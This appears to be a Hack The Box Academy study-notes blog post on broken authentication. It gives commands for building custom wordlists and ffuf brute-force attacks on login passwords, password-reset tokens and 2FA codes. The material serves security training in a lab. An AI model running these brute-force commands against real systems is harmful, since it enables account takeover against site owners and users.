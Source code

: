 ```yaml
---
layout: post
title:  "Hack The Box - Academy - Broken Authentication"
description: "Explore this detailed walkthrough of Hack The Box Academy's Broken Authentication module. Learn effective techniques to perform login brute-force attacks, authentication bypass techniecues, and elevate your penetration testing skills with step-by-step insights from Zwarts Sec."
date:   2024-10-30 20:00
image:  /images/htb/broken-auth/logo.png
tags:   [authentication,cbbh]
categories: [htbacademy]
---
```


>
<b>Links:</b>
<br/>
<a href="https://academy.hackthebox.com/module/details/80">Broken Authentication</a><br/>
<a href="https://jacozwarts.github.io/images/htb/broken-auth/Broken_Authentication_Module_Cheat_Sheet.pdf">Broken Authentication - Cheat Sheet</a><br/>
<a href="https://www.cirt.net/passwords">CIRT.net - Default Passwords</a><br/>

<br/>

## Notes:

### Create custom wordlists by using grep and rockyou.txt
```
grep '[[:upper:]]' /usr/share/wordlists/seclists/rockyou.txt | grep '[[:lower:]]' | grep '[[:digit:]]' | grep -E '.{10}' > custom_wordlist.txt
```
#### `Count number` of line in file:

```
wc -l custom_wordlist.txt
```

#### Using `ffuf` with POST:
```
ffuf -w ./custom_wordlist.txt -u {TARGET} -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=admin&password=FUZZ" -fr "Invalid username"
```

#### Use seq to generate pins:

```
seq -w 0 9999 > tokens.txt
```

#### Extract details from csv:
```
cat world-cities.csv | cut -d ',' -f1 > city_wordlist.txt
```

#### Using ffuf with GET:
```
ffuf -w ./tokens.txt -u http://{TARGET}/reset_password.php?token=FUZZ -fr "The provided token is invalid"
```

#### Using ffuf with Session-Token:
```
ffuf -w ./tokens.txt -u http://{TARGET}/{ENDPOINT} -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=fpfcm5b8dh1ibfa7idg0he7l93" -d "otp=FUZZ" -fr "Invalid 2FA Code"
```
<hr/>
